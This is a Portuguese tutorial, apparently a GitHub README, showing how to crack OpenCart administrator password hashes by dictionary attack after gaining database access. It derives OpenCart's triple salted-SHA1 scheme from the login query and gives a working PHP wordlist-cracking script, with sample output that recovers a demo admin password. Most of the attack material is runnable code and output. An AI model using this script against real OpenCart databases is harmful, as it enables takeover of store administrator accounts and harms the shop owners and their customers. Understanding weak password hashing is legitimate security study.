 # Brute force attack in OpenCart stored passwords.
Nesse pequeno tutorial eu ensino como realizar um ataque de força bruta baseado em lista de palavras em senhas armazenadas em bancos de dados do OpenCart


## CENÁRIO:
- Você conseguiu acesso ao banco de dados de uma determinada aplicação que usa OpenCart.
- Você consulta a Hash e o Salt da senha na tabela do administrator e obtém o seguinte resultado:

| password      						  | salt    | email             | status | username    | lastname | ip        | firstname |
|-----------------------------------------|---------|-------------------|--------|-------------|----------|-----------|-----------|
|f2e9efd4a366507c5b1cba7749659d93d61ae335 |oInuc412L| admin@pentest-server.com 	| 1      | Admin       | das ganbi| 127.0.0.1 | developer |


## PROBLEMA:
Você não conhece o sistema de criptografia de senhas do OpenCart, Então você vai tentar desvendar essa `hash` com força bruta comum usando criptografia SHA1.

```php
#exemple:

<?php
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($string);
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```


O problema é que `$password` (A senha do admin) não é simplesmente uma string criptografada com SHA1.
Logo um script de força bruta baseada nesse tipo de criptografia dificilmente geraria uma `hash` igual a senha criptografada do admin que você quer "desvendar".

## SOLUÇÃO:

SE OLHARMOS O ARQUIVO PHP QUE FAZ A AUTENTICAÇÃO DO ADMIN NO OPENCART
`\opencart\system\library\user.php`

ENCONTRAMOS O SEGUINTE CÓDIGO:
```
$user_query = $this->db->query("SELECT * FROM " . DB_PREFIX . "user WHERE username = '" . $this->db->escape($username) . "' AND (password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "') AND status = '1'");
```

A PARTE QUE NOS INTERESSA:
```
password = SHA1(CONCAT(salt, SHA1(CONCAT(salt, SHA1('" . $this->db->escape($password) . "'))))) OR password = '" . $this->db->escape(md5($password)) . "')
```

ADAPTANDO O CÓDIGO TEMOS:
```
$password=SHA1($salt.SHA1($salt.SHA1($password)));
```

**obs**: ignorei a parte `OR password = '" . $this->db->escape(md5($password)) . "')` já que testamos nossa hash e já sabemos que é SHA1, certo?

## Agora já sabemos como devemos criptografar as strings da nossa wordlist para comparar com a `hash` encontrada na tabela do administrador.

Um script simples em php para testar força bruta em senhas OpenCart ficaria assim:


```php
#exemple:

<?php
$salt = "oInuc412L";
$password = "f2e9efd4a366507c5b1cba7749659d93d61ae335";

$lines = file('wordlis.txt', FILE_IGNORE_NEW_LINES);
foreach($lines as $string)
{
   $hashed=SHA1($salt.SHA1($salt.SHA1($string)));
   if($hashed==$password){echo "SENHA: ".$string;} else{}
}
?>
```

```
C:\Users\demo\open-cript-master>php opencript.php
SENHA: 12345
```

###### _NEED ME? [pablov3rlly gmail com]_
